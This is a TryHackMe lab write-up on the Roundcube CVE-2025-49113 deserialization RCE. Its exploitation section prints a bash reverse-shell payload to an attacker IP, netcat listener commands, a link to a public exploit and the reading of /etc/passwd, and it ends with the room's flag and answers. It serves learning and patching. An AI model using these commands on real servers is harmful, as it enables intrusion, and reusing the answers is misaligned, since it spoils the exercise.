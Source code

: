 ```yaml
---
title: "Roundcube: CVE-2025-49113"
date: 2025-07-29
categories: [TryHackMe]
tags: [info, vm,  php]
excerpt: "Roundcube: CVE-2025-49113 TryHackMe"
---
```



## Introduction

This post covers the TryHackMe room "Roundcube: CVE-2025-49113," which explores what makes this vulnerability possible and demonstrates exploitation in a controlled lab environment.

**Roundcube**is a free and open-source webmail project that has gained widespread adoption due to its feature-rich interface and multilingual support, available in over eighty languages. Its functionality can be further extended through third-party plugins, making it a versatile solution for organizations worldwide.

The platform requires a web server with PHP support and an SQL database to operate. It's compatible with various web servers including Apache, Nginx, and Lighttpd, while supporting multiple database systems such as MySQL, MariaDB, PostgreSQL, and SQLite. This flexibility has made Roundcube particularly popular among hosting providers.

Recently, a critical vulnerability was discovered in Roundcube Webmail affecting all versions 1.5.x and 1.6.x prior to 1.5.10 and 1.6.11. This vulnerability enables remote code execution (RCE) by authenticated users, meaning that valid webmail credentials are sufficient for an attacker to execute arbitrary commands on the host system. With a CVSS 3.x severity score of 9.9, this vulnerability is classified as critical. Roundcube has released patched versions 1.5.10 and 1.6.11 and strongly recommends immediate updates.

## Task 2: Technical Background

Take a couple of minutes to go through the commits for versions 1.5.10 and 1.6.11.
> **Answer:** `No answer needed`

## Task 3: Exploitation

I began by accessing the Roundcube webmail interface:

<figure class="text-center">
  <img src="../assets/img/Roundcube_login.png" alt="Roudcube login page">
  <figcaption><em></em>Roudcube login page</figcaption>
</figure>

Next, I obtained the exploit code from the public repository at `https://github.com/fearsoff-org/CVE-2025-49113/blob/main/CVE-2025-49113.php` and saved it locally as `file.php`:

<figure class="text-center">
  <img src="../assets/img/Roundcube_phpfile.png" alt="Roudcube php file">
  <figcaption><em></em>Roudcube CVE-2025-49113 php file</figcaption>
</figure>

Then, I initially attempted to establish a reverse shell using the following command:
```bash
php file.php http://10.10.63.105/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
```
{: file="php command"}

When this approach encountered issues, I tried connecting directly to the target:
```bash
 nc 10.10.63.105 4444
```
{: file="nc command on target"}

After this failed, I set up a listener on my attack machine:
```bash
nc -lvnp 4444 
```
{: file="nc command with lvnp on target"}

Then executed a modified payload using a bash reverse shell:
```bash
php file.php http://10.10.63.105/roundcube ellieptic ChangeMe123 "bash -c 'bash -i >& /dev/tcp/10.10.75.191/4444 0>&1'"
```
{: file="new php command"}

The exploit was successful, and I gained shell access to the target system:
<figure class="text-center">
  <img src="../assets/img/Roundcube-ncCommand.png" alt="Roudcube nc comamnd">
  <figcaption><em></em>Roudcube nc command</figcaption>
</figure>

Once inside the system, I examined the `/etc/passwd` file to identify system users:
<figure class="text-center">
  <img src="../assets/img/Roundcube-Passwd.png" alt="Roudcube Passwd file">
  <figcaption><em></em>Roudcube users</figcaption>
</figure>

One of the users has the first name of Maggie; what is her last name?
> **Answer:** `Byte`

Fot the flag in `/etc` I enter the directory and search for the txt file:


<figure class="text-center">
  <img src="../assets/img/Roundcube-Flag.png" alt="Roudcube flag file">
  <figcaption><em></em>Roudcube flag in flag.txt</figcaption>
</figure>

> **Answer:** `THM{ICE_CUBE_DESERIALISATION}`



## Task 4: Conclusion and Mitigation

This vulnerability demonstrates the severe risks posed by deserialization flaws in web applications. The exploit requires only valid webmail credentials and works against default Roundcube installations, making it particularly dangerous in real-world scenarios.

The attack can be challenging to detect as the malicious traffic may appear similar to legitimate webmail activity.

**Key Takeaways**

- Immediate Action Required: Update to patched versions immediately.
- Authentication Still Required: While this is an RCE vulnerability, it requires valid credentials.
- Default Installations Affected: No special configuration needed for exploitation.
- Detection Challenges: Malicious activity may blend with normal webmail traffic.

This exercise highlights the importance of maintaining up-to-date software and the potential impact of deserialization vulnerabilities in widely-used applications.
> **Answer:** `No answer needed`
